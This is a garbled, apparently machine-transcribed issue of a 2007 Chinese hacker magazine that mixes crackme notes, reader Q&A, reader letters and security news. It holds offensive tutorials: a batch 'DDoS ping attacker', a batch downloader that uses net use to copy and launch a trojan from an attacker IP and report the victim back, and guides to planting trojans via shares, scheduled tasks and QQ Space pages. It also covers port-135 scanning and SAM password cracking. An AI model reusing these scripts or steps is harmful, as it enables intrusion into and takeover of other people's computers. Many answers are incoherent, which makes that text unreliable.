在 00401422 处，如果 eax=6 就会调用 0040101e，而在 0040136 处则是通过 timerid=6，也就是说隔1秒钟就会检测一下处理器，确定程序是否还在该调时间，哪再不停下，把 0040142b 处给出 NOP 掉。最后用上面的方法再保存为 crackeme3.exe，下面我们加载 crackme3.exe，按 F9，这程序终于运行起来了。接着用手动断点向下断，然后 F8 慢慢走，走到 004014d0 处换用 7 眼睛，就到算法部分了。算法部分很简单，我在这里就不多说了，有兴趣的可以分析一下，给出一组注册码：

User: dXqdkfkJ3gJcniESIjsJtkeNNGediWPFt

Sn: EdjlfFFikIlLileidnlebIteqabAMOOC0Oese3

不过大家在调试的时候，注意004013ec处，有个定时器，如果运行时间超过10秒，就会自动结束程序，这里你可以把时间调大一点。另外，如果 c:\windows\winx.dll 存在，标志位 DS:[40304a]=1，那么系统永远不能注册成功，所以有 winx.dll 事件时得把它删除掉。

好了，这个简单 anti 分析到这里，大家可以自己试着玩一玩，该 crackme 已经见到光盘。

【本文介绍的目标程序已被取走本机光盘中】

编辑点评：

记得在杂志第9期刊登了一篇关于破解与反调试的文章，但很多时候反调试并不只有一个手段，本期作者带给了大家一个非常好的加固封装环境的例子，这里并不是很复杂，但是小编还是建议大家更深入地去研究一下，以这样的人把部分的探索成果。


怎么样能使 QQ 完全隐藏启动？
Q：开机后我的 QQ 会自动启动，我也设置了任务栏不显示，但登录窗口要手动才能完全隐藏，有什么方法能使 QQ 完全隐藏启动？
A：正如很多电脑应用的问题一样，大家记住完全隐藏的何时问题，其实有必要靠加密、使用服务端去帮忙将它隐藏的 QQ，停用了一个完全隐藏的特性 ctrl+?。在 ctl 区合使用的这个功能是在职场里的一个安全性，必须使用和相关方法并和进程、注册表相结合的特殊方法，大家可以把注册表任务服务里设置以 Hidden 来启动 on svchost、或者写重定向 dll 把它搁置，然后要开机时在系统中隐藏运行某些服务就几乎无痕了。
URL: http://www.nohack.cn/bbs/thread-67862-1-3.html

如何更快地查看 XP 系统的用户密码？
Q：有什么比较好的查看 XP 系统的用户密码的东西？我个人有个可以破解的工具，但是很长时间不能破解出来，基本上要几天，一有没有更快的效率工具？
A：XP 的系统是很多用户信息保存在 SAM 文件里边的，如果是 Win2000 或 Windows2003 可以借助 windows 手工免杀破解部分管理的密码，但是 Windows XP 系统不能成功，一般情况下是将其 sam 文件，用 lc5 或者 Advanced Windows Password Recovery 来读取，这速度是最快的，像在这种复杂的 9 月刊上已经行不通了。这里要用另外的批量配置工具，在可以切换本地维护的情况下，使用现有的 ghost 复制成光盘。其他具体的详细操作还要根据在系统中起封装系统里的工具。

任务栏的音量调节小喇叭图标不见了，怎么办？
Q：我电脑右边任务栏里的那个喇叭图标不见了，应该在控制面板的“声音与音频设备”里选择“音量图标放在任务栏”并勾选，可是已经开启了却不行，甚至还会回收声音有时还会发出哔的一声然后自动注销掉，怎样设置才能恢复？
A：那就来修改一下这个杂项的数值，试试把它移动到相应的菜单中，如在恢复时将该项配置修改一下，启动它参数有的是以 shell 程序名称，给定一个隐藏的参数调整成 taskbar 快速图标；
也可以给条目设置成音量调节驱动的专门程序或者使用在注册表中修改它的开机启动程序；在系统工具里把相关的项设置为固定则可。
如果是 access 的情况下，那就只能考虑把相关项从启动菜单里删掉。

如何使 chat 在登录后显示在桌面上，桌面不见了，怎么办？
Q：我电脑在有些系统里，登录了 QQ 以后，想设置在控制面板里“查看与音频设备”里显示“音量图标放在任务栏”，却发现桌面又没有了，怎么办？
A：如果从登录系统的窗口被关闭掉，那么就要在系统中进行手动的设置，调试时可先用它的开关指向再在注册表中进行设置；如果你正在使用系统的某些状态信息，设置成一个特定的参数可以让它自动显示在桌面上。
URL: http://www.nohack.cn/bbs/thread-67831-1-4.html

如何找“三条在线新词系”的漏洞？
Q：为了寻找“三条在线新词系”的漏洞，下载了 1.8c 版本，程序运行不够，但有时不能进入程序的漏洞时没有机会利用的方式，清除它有哪些方案，查看有多少系统？
A：这个程序的新的用到很多“漏洞”，有时允许用户生成新词并在提交后进行处理，并在系统上打开若干个取样文件，对着文件进行提取时有时也会出现异常。可以将其 web 目录入口的访问权限打开，调整为一个可写入口等，这样能够有攻击条件。
URL: http://www.nohack.cn/bbs/thread-67918-1-1.html

用网印 D 怎么查找注入点？
Q：为什么我用网印 D 查了很多网站都没能找到注入点，该怎么找啊？有什么技巧吗？
A：网印注入工具安全引入了很多网站注入条件，比较有经验和熟练的，一般先决定以某个参数为连接点，之后用头部的文件数据连接起来，看看是否可以被识别，如果注入点的结果返回了可控的内容，可以结合 sql 注入的一些想法去调整。比如你的网站里有某些参数，可以尝试对它进行修改，或者用 googlehack 这类搜索方式，找后台收集各种信息，然后把关键字用一定的规则进行提取。若你在插入时的 cookie 没有返回，就要继续向下进行分析。

各位大侠，我想学习入侵网站……
Q：今天有人见到网站攻击时是如何进行入门的，看到这个地方有很多问题，但不知道从哪里开始学习。
A：一般来说，我们首先要学会“工具”、对象和分析方法，很多时候要从一个页面开始分析，查看是否存在上传点或输入点，并结合一些基础知识再进一步研究。

任务栏的音量调节小喇叭图标不见了，怎么办？
Q：我电脑右边任务栏里的那个喇叭图标不见了，应该在控制面板的“声音与音频设备”里选择“音量图标放在任务栏”并勾选，可是已经开启了却不行，甚至还会回收声音有时还会发出哔的一声然后自动注销掉，怎样设置才能恢复？
A：那就来修改一下这个杂项的数值，试试把它移动到相应的菜单中，如在恢复时将该项配置修改一下，启动它参数有的是以 shell 程序名称，给定一个隐藏的参数调整成 taskbar 快速图标；
也可以给条目设置成音量调节驱动的专门程序或者使用在注册表中修改它的开机启动程序；在系统工具里把相关的项设置为固定则可。
如果是 access 的情况下，那就只能考虑把相关项从启动菜单里删掉。

电脑中了名为 windowsdown 的木马下载器，怎么办？
Q：最近我的电脑中了一个名为 windowsdown 的“恶意程序”（金山毒霸的定义），从其发作流程表现及网络相关文章看，应该是一个用于下载木马的后门下载器。我的金山毒霸已经升级到最新版本，但它还是无法根治，每次杀毒后重启再查毒又见到了它，而且它还会不断下载病毒木马，下载的病毒有时在临时文件夹里，## 29号信箱

# 网吧·黑客

城市 / 北京  
论坛ID / YunYunBao  
邮件 / yunyunbao.jy502@yahoo.com.cn  
→对某篇文章的读后感：  
文章名称：SA：实名制网吧的软肋——万象网吧入侵加载  
读后感：和编辑改黑一样，这边的意思也很清楚，能想到下一步该怎么做，要做什么，而且还利用批处理来简化步骤，很好的文章！

城市 / 山东济南  
论坛ID / 猪笼竹林  
邮件 / friend1sd163.com  
→对某篇文章的读后感：  
文章名称：SA：实名制网吧的软肋——万象网吧入侵加载  
读后感：最喜欢读这种文章，文章充满了各种破解方法，而且讲解详细，最重要的是又可以免费上网看《黑手》论坛了，那么多新闻讯息是让人困无穷。  
暂时走于中石不爱惜的采集：网吧确实是用来之地啊！电脑多，MM也多，当然，限制也更多的。如何解开限制，让我们自由地网络行走，这是我们御听学习的技术啊！想当初，我也只是走走来着，当根不爱网！

# 八侵·渗透

城市 / 重庆  
论坛ID / andersonmo  
邮件 / lyzaa@hotmail.com  
→对某篇文章的读后感：  
文章名称：注射入侵全攻略  
读后感：文章写得很详细，介绍了一些注入方法，使我学会了通过 google、baidu 找注入漏洞，了解了入侵思路，及得到了一些 webshell 的一些方法。看完文章后，激励我研究注入原理，我尝试了手工注入，虽然没有成功，但使我思考了问题，总结了方法，提高了自己。

城市 / 辽宁省鞍山市  
论坛ID / 大可Ddark  
邮件 / gameboyqqq@yahoo.com.cn  
→对某篇文章的读后感：  
文章名称：揭秘内网渗透  
读后感：真是太照顾我们小菜了，为我恶补了一项必备知识，文章脉络清晰，一见明了，语言还挺幽默，支持此文！愿保持！  
→有什么建议和意见：  
与《黑客手册》共度了一年的时间，感情很深。但一向认为黑手是一本在各个平台都有极为出色的刊物，不会出现太大的问题，但这期“黑手”却有令人更生气的地方，对文章阅读造成了一定影响。这也许是印刷的问题，但严重的坏的丑恶影响了此文的阅读效果！希望今后在这些方面有所改进，我会一直支持你们的！（希望不是故意将黑手中打点...）

# 黑客手册

非安全

# 对话：采访 Lenk

# 细节决定成败

- 风讯 MS4.0sp5 的致命伤
- 浮在冰中的闪光：对某机场曲折安全检测
- 小痞经验心得
- 后的真相
- 误解的友谊
- 扒鸡
- 对话：采访 Lenk
- 工行网银的设计缺陷
- 【高手专栏】利用 VBS 辅助入侵
- 【新洞】
- 【综合】
- 【菜鸟学】

# 编辑部的搞笑事

# 编辑部的故事

首先栏目就被塑造成了活脱的“注入”而“暴库”，让全体编辑部惊忙找“漏洞”……不过还是被各位挺长壮士的朋友们分析得出一些编辑部相关数据资料，让我们是抽着早早周开课啊！

10 月开始，杂志改版了：2007 年第 1、2 期合订本也面市；技术教材辅导书《精通黑客免杀》接而来火热推出……这个冬天绝不会再冷，大客户已经热血沸腾吗？高潮知识的眼神就如猫头狗般……哦，比搞错了，应该是大家抱着到小编辑部很流口水，眼发直啊……

啊？！说说搞笑事？……就仿佛我们都很严肃吧！本期让孩子们来写编辑部的故事，还得说搞笑事，那我就写一个特别不好笑的事，等大家笑笑！

最近为了网络情报，特别研究了网络流行的诺言古诗词……啊？众位语言不知如何为诺言诗词？那请先看下面这部在网络流行的白作《卧春》！

【卧春】  
卧梅又闻花，卧枝伤恨底。遥知不是雪，疑是杏花来。卧似银，卧似银杏，卧似银杏！  
怎么样？  
有着……的境界吧！其实案情发现：这可以拿来训练我们的社会工程学级别呢！因为需要理解语义，发挥想象创造力才能做得到一诗多意！下面，接子栽虫，完全原创，独家首发：《灰太诗》

【灰太诗】  
尼尼衣头帐，依萍找蛤球。珠遥筝虫见，尼尼头头头。衣头，衣头头，似头头，思头头！  
这句诗词表现的是一位刚入学门的女尼，还放不下红尘牵念，想落思自己衣服及头上的珠……于是拿出佛珠打扮起来，对着镜子看着珠光宝气的自己，想着自己已经入了空门，这些衣服和头饰在身边就会让自己分心……于是将衣服、佛珠都完全破坏掉，让自己再也无法使用，以后只能在记忆中寻找自己最美的形象了。（其实：这个“韵”字同样特别好押！嗯……）

请宣传诗的特别在于，韵味上奇趣。本意和天意，请同完全靠作者和读者的自我理解，而且也许每个人的理解都不一样。大家也可以来搞个“诺言诗词大乱说”活动啊！欢迎在杂志向读者们问一次字意，优秀作品免费上刊头进行宣传，并由眼镜族大佬奉茶自点评。

注：如果你看了这些诗词而不笑？呵呵……你就是诗词的标题！（^_^）

腾讯：无论盈利与否，开发 QQ 外挂就是侵权行为！  
一句狠厉的语言让所有关注“珊蝴虫”事件的人们一惊！珊蝴虫哼哼了，针对一些技术爱好者对继续开发数灵QQ的响应，腾讯表示：不论是否出于商业目的，任何人只要开发QQ外挂，腾讯就将认定其侵权行为，并保留追究的权利。  
随后，珊蝴虫QQ之外的另一位原QQ开发团队宣布终止开发的消息，国内两大QQ修改版将因此怒潮。飘云QQ的一位核心技术人员在退出声明中指出：“已经有很多人发表示愿意继续IPQQ的开发。”，一些网友会说来开发添加了用户分列。  
对于QQ外挂工具他很大的见识，不同体确实这方面的看法。一些显得快的人，就怕你为进步打包发招，但可能会出现不正当竞争，也有律师认为此举就虚构侵犯了非法，愚昧是侵权行为。

小愚点评：其实以前期期撞虫也就是因为它比腾讯QQ“干净”，没有广告的骚扰。当然，如果当初腾讯一直继续以此为广告、理IP来演绎发展，后果果然也理想，这般商业上也没出过，以前的研发技能……

# 新闻摘要

本月的“*大×*”是国内最有气质？我要知道，QQ 和万千程序天军、Opera 浏览器和迅速流动词语？MS Vista 系统后推出的“天龙的系统”，用户们可以用DVT或者简体的分词，这些个词汇主要成为了某道……思考解释多了很多现代网络语言。

# 病毒走向智能！选择性搞破坏！？

互联网最近出现一种具有“见机行事”功能的病毒，与常见的电脑病毒不同，这种代码为 Win32/KillDPT 的病毒会根据机器的操作系统类型决定中止运行还是入侵破坏。奇怪的是，对简体中文操作系统无影响，专杀某些游戏平台类系统！

据了解，该病毒为一种“分区表”杀手病毒，该病毒运行后会首先读取注册表的一种特征，并判定当前操作系统的类型，如果是简体中文操作系统，该病毒会自动退出运行，不会对电脑产生任何影响；如果是日本语或韩国语电脑系统，该病毒则会对硬盘分区表动手，破坏电脑硬盘中存储的数据，进而造成系统无法启动；最后它会利用注册表中的一段名为“Your luck”和“s good”（这显然是句中国式英语，字面直译应该是“你运气真好”）的对话框。

小愚点评：网友对病毒编写者的这种行为提出了质疑，并以此病毒名定作为“读者”。从编写者来看，最可能是为了发泄不满。不过也提醒电脑用户注意防范，这种病毒有针对性，不会对所有电脑作恶，在这种做法的病毒操作系统让业主不安心。

# 漏洞公告牌

Opera浏览器远程代码执行及绕过同源策略漏洞

受影响系统：

Opera Software Opera < 9.24

说明：

Opera是一款流行的WEB浏览器，支持多种平台。最近发现其存在多个漏洞，远程攻击者可能利用这些漏洞控制用户系统。如果用户将Opera配置为使用外部网络程序或者邮件应用程序，特殊的网页可能导致Opera错误地运行该程序，这将可能执行攻击者指定的指令。

在访问不同站点的时候，特制的脚本可能绕过同源策略或者这些函数。若之后页面的脚本运行了这些函数的话，就可能导致攻击者利用这些函数在页面中执行恶意代码而无需用户点击任何安全确认。

有意思！Vista评分工具漏洞

Vista硬件及软件评分工具是一个性能测试系统。该系统在不是管理员权限的状态下运行，且程序本身不允许在管理员权限之外的其他进程中进行操作，从而有可能达到提权的效果。但是，在某些系统中，这个工具会以一种特殊的模式运行，用户可通过利用该模式执行恶意代码，从而绕过限制。

此外，评分工具会将结果存储在一个XML文件中，系统用户无法直接编辑该文件。如果攻击者能够找到并修改该文件的内容，则可能会造成评分结果的篡改，导致系统错误地报告硬件分数。

因此，攻击者可以通过某些特殊的方式更改系统配置，达到提权或执行恶意操作的目的。

尽管这些漏洞可能在某些系统环境中不一定容易触发，但由于其涉及系统核心组件，因此应尽快修复。

# 肉鸡控住

黎盎

10日刚过，11月就来了……眼咕咕地眨了几下，忽明忽暗的天空中飘着毛毛细雨。此时此刻，树叶上的灰尘都变得湿润了，风中的路灯在闪烁着光。

# 呵D网络工具包——抓鸡好帮手

sniperhg

从本文你可以学到：

使用D网络工具包快速抓鸡

想必大家都用过呵D的网络工具包，相当强大的一个菜鸟傻瓜工具，不用懂什么专业知识，就可以快速拿到各种网站中的木马。现在在黑夜里，利用这个抓鸡工具包，站点同步获取木马的能力，可以说是大众化的“木马”服务。这里从一个新的角度来谈谈“抓鸡”的功能，我的目标不是马肉，而是要找一个让你能够“使用”HP设备、怎么看到IP的IP段，位于某网站服务器中的IP。现在，从网络工具包的D机器入手，说明如何进行工作，获取一大堆的东西，包括信息、网页以及日志等。

在这里，我打算先从一个最直接的“内网攻击”功能开始，通常它要放在小程序里，内部有个扫描的选项，可以直接判断当前处在什么环境中。对于抓鸡工具包来说，我最喜欢的功能就是其能够根据你指定的主机IP范围，自动扫描局域网中的所有主机，然后将结果保存到本地并可进一步查看。这个工具包还能结合一些常见的嗅探、控制功能，对网络中的目标进行操作。

找到有空主机时，便可以利用D的“木马种植”功能，直接将一个木马载入其中，再通过Task Scheduler定时任务等方式将木马植入到系统服务中，从而实现长期驻留。对于没有开启任何共享或远程服务的主机，也可以通过其它方式进行尝试，比如通过TELNET或未授权访问等手段进行控制。

图1

我们选择一个可以列出服务的主机，这里出现两种情况：  
1. 对方开了共享，我们就直接用呵D的“木马种植”功能，直接传一个木木上传，再通过Task Scheduler定一个计划来执行我们的木马。  
2. 对方没有开任何共享，我们就打开它的TELNET，这个也是一种较为常见的远程管理方式。

图2

# 【菜鸟黑枕】← 2007.11 非安全·黑客手册

## 【菜鸟黑枕】

人侵，从端口开始

从本文您可以学到：

1. 端口的基本概念
2. 基于端口的攻防

## 一、什么是端口？

“端口”是计算机网络中最常见的一个词，它是英文 Port 的译名，它有呼叫号码的意思。我们这里所指的端口不是指物理意义上的端口，而是特指 TCP/IP 协议中的端口号。它可以认为是 IP 地址和他们同一个方面，端口就是出入该网络接口的通道。它可以把 IP 地址比作一个门房子，端口号则比作有门卫的门。并且也可以用端口号表示不同的网络服务。端口号是由一个 16 位无符号整数表示，范围是 0 到 65535。

端口号有两种形式分配方式：第一种叫全局分配，这是由一个统一的中央机构按照用户的需要进行统一分配，并将结果公布于众；第二种是本地分配，又称动态分配，即进程需要访问传输服务时，由本地操作系统提出申请，操作系统返回本地唯一的端口号。进程再通过合适的系统调用，将自己和该端口连接起来绑定。TCP/IP 网络中的端口号分配了以上两种方式，将端口号分为两部分，规定的作为保留端口，以全局方式分配给服务；TCP 和 UDP 规定，小于 1024 的端口作为保留端口，剩余的为自由端口。

常见服务端口：

21  FTP 服务  
80  WWW 服务

## 二、端口如何被利用

端口在网络环境中其实有很多作用，除了进行数据传输以外，还可以用于验证远程主机是否存活。那么现在我们就来总结一下端口入侵的类型。

# 系统服务型

Windows 系统为用户提供了大量的相关服务，比如 IPC$ 服务、WMI 服务、远程桌面服务等。由于这些服务都是由系统提供的，因此它们的安全性相对少有保障。比如 WMI 服务是 “Microsoft Windows Management 报表” 服务，可以用于用户访问许多系统进行远程管理，同时它的易用性也易于系统的安全性下降。因此 WMI 服务默认打开的 135 端口，也被称为 135 端口入侵。

## 实例演示：

Step1：首先利用 “S 扫描器” 对内网中存在 135 端口的远程系统进行扫描。点击开始菜单中的“运行”命令，输入“cmd”打开命令提示符窗口，首先使用 S 扫描器的目录下输入下面一段命令。

`S syn 61.188.1.1 61.188.255.255 135 100 /save`

## 三、端口入侵的防范

通过前面的讲解我们知道了端口可能存在的威胁，因此及时对不必要的端口进行封堵，就成为用户系统防护的重点。Windows系统默认会开放135、139、445等端口，这些端口对于普通的个人电脑用户来说，不但一点用处都没有还有可能危及系统的安全，所以首先就需要对这些端口进行封堵防范。

- 1. 关闭 139 端口的方法：

- 首先进入“网络连接”设置窗口，选择“本地连接”中的“属性”命令，然后在弹出的“本地连接属性”窗口中选取“Internet 协议（TCP/IP）”选项并点击“属性”按钮。最后进入“高级 TCP/IP 设置”窗口，选择“WINS”设置选项卡，在里面有一项“禁用 TCP/IP 的 NETBIOS”，选择该选项后就会关闭 139 端口，如图 4 所示。

2. 关闭 445 端口的方法：

由于 TCP 445 端口在 Windows 2000、XP 以及 Windows Server 2003 系统中，是专门用于通过 TCP/IP 协议直接运行 SMB 来共享文件、打印机、以及串行端口，而对于普通的个人用户来说根本不需要使用这个端口。

运行注册表编辑器并找到：HKLM\System\CurrentControlSet\Services\NetBT\Parameters，接着在编辑窗口的右边空白处点击鼠标右键，出现的“新建”菜单中选择“DWORD 值”，将新建的 DWORD 参数命名为“SMBDeviceEnabled”，数值为 0（如图 5 所示）。设置完成后重新启动电脑，系统的 445 端口已经关闭了。

- 3. 关闭 135 端口的方法：

- 135 端口的关闭是这 3 个端口中最复杂的一个，需要使用十六进制编辑器打补丁 `rpcss.dll` 文件进行修改，我们还是直接利用 Windows 系统防火墙进行封堵吧。进入系统的控制面板，双击运行“Windows 防火墙”选项，再在窗口边选择“例外”标签中，将“Windows Management Instrumentation”选项前面的勾去掉就可以了，如图 6 所示。“文件和打印机共享”选项前面的勾去掉，可以起到封堵 135 和 445 端口的作用。

小结

今天我们简单地介绍了一下关于端口入侵的方法，以上大家对端口入侵有一个基本的认识，以后的系列文章将继续围绕系统端口，进行其它常见的入侵方法为实例，分各位朋友介绍最为基础的一些相关内容。

> 编辑点评：

读了本文大家的收获应该有一个直观的认识吗？可以这样地讲，入侵也完全是建立在电脑上的，我们可以说要攻击目标电脑，而能不能找到适合它就决定了成功率，那端口如何选择及封堵？这就要靠对端口有了。

# QQ 账号显示为

# EmailID 的变革方法

从本文你可以学到：将 QQ 主显号改为 mail 地址的方法

最近在 q 群里经常被人询问本人的 QQ 号码为何显示是 Email 地址！其实满足申请内测的 QQ2007 正式版。其中的一项功能就是已经开始支持使用 Email 地址作为用户的 QQ 账号也，目前该处于测试阶段还没有开放，因为已经已属于内测，内测报名的日期了，所以常规的方法是不可行了。图 1 本人未修改的样子。事实上，本人未修改的样子。

首先，点击 QQ 面板上面的那个小钱包。之后会弹出一个窗口，然后在这个窗口内右击，选择属性，得到页面的属性地址（URL），如图 2。属性的地址是这样的格式：

```text
http://pay-client.qq.com/MyPurse.shtml?clientuin=QQ号码&clientkey=一段字母(A)&type=0&ADUIN=QQ号码&ADSENSION=一段字母(B)
```

本例为："http://pay-client.qq.com/MyPurse.shtml?clientuin=450619419&clientkey=47CCD4CDBF7955BCB9A74868AAE63DE41163B51A4B2ED1A8FED9022A4A8C9CE2&type=0&ADUIN=450619419&ADSENSION=1190043757&ADTAG=CLIENT.QQ.1730_Top.0&PcacheTime=1190044018"

接下来，提取其中的客户号码，替换如下仅为举例：http://accountadm.qq.com/cgi-bin/account/bindaccount?clientuin=QQ号码&clientkey=一段字母(A)&ADUIN="QQ号码"&ADSENSION=一段字母(B)。

将替换后的 URL，粘贴到浏览器地址栏，按下回车，来到了绑定邮件地址页面，如图 3。本人在此点击的是“绑定其他邮件地址”，这次来到的是如图 4 所示的页面。

输入绑定的邮箱地址，点击“检验”并提交，如邮箱未被他人占用，腾讯会在你刚输入的邮箱里发送一封激活邮件。然后进入我们的邮箱找到腾讯发来的确认邮件，点击确认链接，来到如图 6 验证身份的页面，在该页面输入你的新绑定的邮箱，就可完成绑定，如图 7。

## 非安全黑客手册 2007.11 →【酷 五】


绑定好信箱之后，我们可以直接用 Email 地址登录 QQ 和查找好友了，我们的账号也就会显示为我们绑定的邮箱地址了。如图8，嗯嗯，账号已经变成 Email 地址了！

需要注意的是，一旦成功绑定 Email 地址之后不可以更改了。对于绑定第三方邮件地址，如果您还没有点击确认图中的确认链接，那么你每月可重复申请五次。您的主显账号每月最多更改两次。还等什么呢？赶紧行动吧！

编辑点评：QQ 新版的体验不会给你一种想要的感觉呢？至少小编觉得 QQ 号显示为 Q 秀体图案，这个想法不错，也是人性化一点。如果你想过了新版本的内测，尽快把这种体验一下这个功能，试试就知道。

# 再续 QQ 空间挂马


从本文您可以学到：利用“导航”挂马

空间挂马，已经说过很多了。至于我这个也是在做一个补充。在看前几期的时候我发现了一个很奇怪但直接的方法，就是利用“导航”挂马，做一个导航的图片。如图1。

接下来我们可以在自定义、新建模块、新建图片。如图2所示。图片链接就写你本马的位置，模块背景、边框选择“无”。链接打开方式最好先新窗口确定。在空间合适的位置放好我们制作的图片，接着就不用我说了吧，保存。OK。

好了我的方法就这么简单，有什么不好的地方。

编辑点评：QQ 空间的挂载很多，问题也不小，利用 QQ 空间挂马的文字教材也说很多了，不知道大家学过之后有什么感想呢？QQ 空间给了我们太多的机会，看来利用的时候，我们很多事情做的，比如说渗透，贴吧。。。大家自己去把握把握。

## 从本文您可以学到：利用 QQ 秀 2.0 制作个性的空白形象

QQ 秀作为 QQ 最大的个人形象展示平台，目前已经在经典版本的基础上，推出唯美时尚的 2.0 升级版，而一套好看的 QQ 秀则少不了，多则几千元，QQ 秀还会过期，过期又得花大量的 QQ 去续费。看着人家花着花钱个性又时尚的 QQ 秀，再看看自己的脸个样板画面里是周华的影像，整一个鲜明对比。而我们这次就通过 QQ 秀 2.0 来找到你的 QQ 形象变为空白，做个性化的你，准备好了吗？我们开始吧！


# 把 QQ 秀变空白

用要设置为空白的 QQ 号登录，第一次登录时默认会显示你 QQ 秀的经典形象（即 1 代 QQ 秀），我们点击如图1的时尚形象把我们的 QQ 秀切换到时尚状态。接着点击图1的 A 处，拖动我们的形象，将自己的形象拖出框内【随便拖到什么地方，反正是看不见就行】然后找到点上保存形象。再看看你的 QQ 秀形象是不是变成空白了呢？如图2。看看是不是很酷呢，呵呵！

# 挂 QQ 就是这么简单

前些日子老爸的同学让我帮忙在挂 Q！找了一些以前的挂 QQ 软件，发现已经无法挂了，从网上搜索了很长时间才发现一款，它的名字是“FoQQ 挂机王”，目前的版本为 1.3。官方网站为：http://www.forqq.com.cn，软件界面如图 1。

首先点击菜单栏的“QQ 与管理”，在空白处点击鼠标右键，选择“添加 QQ”，在出现的对话框里输入 QQ 号和密码，点击“添加”，如图 2。

然后再点击菜单栏的“挂机列表”，在软件的下方点击“功能设定2”，选“QQ 状态为忙碌”，然后点击下方的“内容设置”，在“放松内容”框里添加自动回复的信息，再点击下面的“+”，如图 3 所示。软件的一大特色就是可以设置多条的回复信息，软件会随机发送回复信息！最后回到软件主界面，选中我们添加的 QQ，右键单击“登录选中”，如图 4，即可完成挂 Q 的全部操作。

编辑点评：不错哦，现在好用的挂 Q 软件越来越少了，但还是有一种分屏方案，所以给大家带来这款挂机王。如果你也需要挂 QQ，这是一个不错的选择。

# 漂亮 QQ 空间瞬间“爆”为已存

刚申请了个 QQ 号，想把 QQ 空间装扮得好看点，但又不想花钱去包黄钻，不知道有没有现成的漂亮空间可以给我看，在哪儿找找了，居然给我找到了，不敢独享，拿出来和大家分享。

首先打开 http://www.qzone6.com:8080/，需要登入 QQ，进去后在您要克隆的 QZONE 空间里填写你要克隆的 QQ 号码，如图1。然后点击开始克隆，会弹一个窗口需要输入验证码，如图2。最后，在自己的空间看着，是不是和你想要的效果一样啊。

编辑点评：文字可以说没有什么技术含量，但这种方法你也想到了吗？很像时尚潮流不是靠技术解决的，而是看一个好的创意。


# 小菜学 BAT
中级篇

> 黑客是个例外，学到一定水平的人往往会形成很强的思维习惯。只有一看到就能想到多种解决办法的情况下，才可能算得上真正的高手。

从本文中你可以学到：
1. ping 命令的几个可选项用法
2. net、ftp 等网络命令的用法
3. 批处理参数的用法

上次给大家讲了一些批处理的基础应用，不知大家都掌握了没有。这次，我们要来学习一些网络应用，黑客呀能离开网络呢？但在此之前，我们来认识一下变量吧，毕竟你都很容易写吧。

在批处理里，变量有个明显标志 %，每个变量前都有 %，和 PHP 里的 $ 很像。而且变量名是区分大小写的，即 %A 和 %a 是两个不同的变量。这是用实例来说吧，毕竟实用才是我们的最终目的：

## 一、DDOS Ping 攻击器

DDOS……不少说什么了……太恶劣了，本代码仅供学习，不得用于非法用途。新建批处理 pinda.bat，输入以下内容：ping %1 -l 1024 -t。以后要攻击时只要在 cmd 下输入 pinda x.x.x.x，x.x.x.x 就是要攻击的 IP 地址。

小知识：ping 是一个网络测试程序，它可以向主机发送数据包，并根据返回情况判断是否与主机交换数据。一般小于一定字节量的数据包太小，单包是空字节，或者低于 32，参数指定 ping 多少字节的数据包，同时把用户输入的内容传入 %1 中。

%1，用来接收用户输入参数的变量。%1 接收第一个参数，%2 接收第二个（小编：%0 表示批处理本身），以此类推。本例中我们要攻击的数据是 IP，如图1。


值得一提的是这个程序是用单线程，因而效果并不好，在高级篇中我会将其改进。

## 二、下载者

```
@echo off
@echo 正在安装，请稍候……
net use \\60.63.57.67\ipc$ '123456' /user:'hacker'
copy \\60.63.57.67\c$\mua.exe c:\mua.exe
start c:\mua.exe
@echo ************** >> \\60.63.57.67\c$\backdoor...
```

此以上文件保存为 backdoor.bat，其中 60.63.57.67 是你的 IP 地址，123456 是你的密码，hacker 是你的用户名。每台机子加一个共享目录，共享名是 nu，把木马放进这个目录并改名为 mu.exe。把这个批处理发给别人，运行后会从你的电脑下载木马并执行，而且还会把抄鸡的 IP 地址发送过来。这里试使用主机连接本地网络的连接至主机端文件。


其中第二、八、十一行是打探把这个批处理放在自解压文件里作为安装程序，如果不需要的话可以删掉它。这个程序还是有问题的。如果中招者在运行执行到一半时按 Ctrl+C 终止程序也会发送所取内容，数据依然传到你的 IP，账号密码（小楠：这个问题可以用 bat2exe 解决，将这个批处理转换成 exe 可执行文件，故人都在你面前看出来了吗）。

小知识：
echo，用来显示后面的文字
Start，运行程序
ipconfig，可查看当前各网卡网络连接状态
Exit，退出批处理
Del，删除文件

Net，这个程序可将 Windows 下的瑞士军刀了，可以控制服务、帐户、用户组、共享、时间同步、消息发送等众多功能。net use 可以连接或断开计算机与共享资源的连接，也可以显示连接状态。

## 三、FTP 上传下载

这个例子比上一个简单一点，只用了些 FTP 命令。先说下思路，上传时只要把 get 改成 put 就成了，新建 upload.bat，代码包含下面内容的部分都没部分可以写成：

```
cd 'My Documents'
ftp ftp.space.com
username
password
cd file
ascii
get nohack.txt
binary
get mu.exe
bye
```

这样一来，就会登录 ftp.space.com 把 file\nohack.txt 和 file\muma.exe 下载到本机的“我的文档”里。其中 ftp.space.com。

# 网站防黑利器——安全牛

从本文中你可以学到：熟悉安全牛的功能和用法

## 一、前言

虽然现在已有防火墙、杀毒、入侵检测等安全防范手段，但防火墙对 Web 入侵基本没有作用，杀毒软件更是对变形 WebShell 显得无力，SQL 注入稍微变形就可能过传统 IDS，由此导致的网站被动攻击型，写得网页更是防不胜防。目前针对 Web 安全的工具还很少，而作为中国中关及南广门户网站防御使用的 iGuard 网页防范系统又昂贵又繁琐，因此本人决定开发一款便于个人都用得起的超级安全应用工具，成品手小编的要求写了一篇这样的文章。

## 二、安全牛开发

目前国内防篡改的软件已经有好几款了，像 iGuard、InforGuard、WebGuard3，但可实战监控到防范措施情况的时候几乎没有。发短信有很多好处，特别是那些服务器数据比较重的朋友，一发现黑客侵害了您网站，立刻直接来修改的是文字。如果您使用该软件一旦遭到攻击，威胁安全便收到讯息。短信发送模块则到手机、桌面都设有终端，通知过来就以 SMS 形式即时告知，把您网站的安全状况直接发到您手中，记录效果非常好。

本软件采用微软最新技术 .NET 开发，因为该软件有以下几个好处：

1. 代码安全性较好，不会出现像 C++ 那样的缓冲区溢出问题；
2. 支持文件监控组件，开发周期短；
3. 采用网络方式接收信息，方便管理。

网页防篡改技术的发展历程经历了第一代时间轮巡技术、第二代事件触发技术及核心内控技术和第三代文件系统驱动技术等；事件触发技术安全性用的是第三代采用 FileSystemWatcher 来实现网站监控功能，WebShell 检测则使用进站前会过滤和验证型大面积审查措施，这种方式的触发比较高效，一般中型网站就容易几十分钟，大型网站也不超过 30 分钟。由于特征码是正则匹配，因此后门检测率高且准确。开发期间也碰到一些困难，

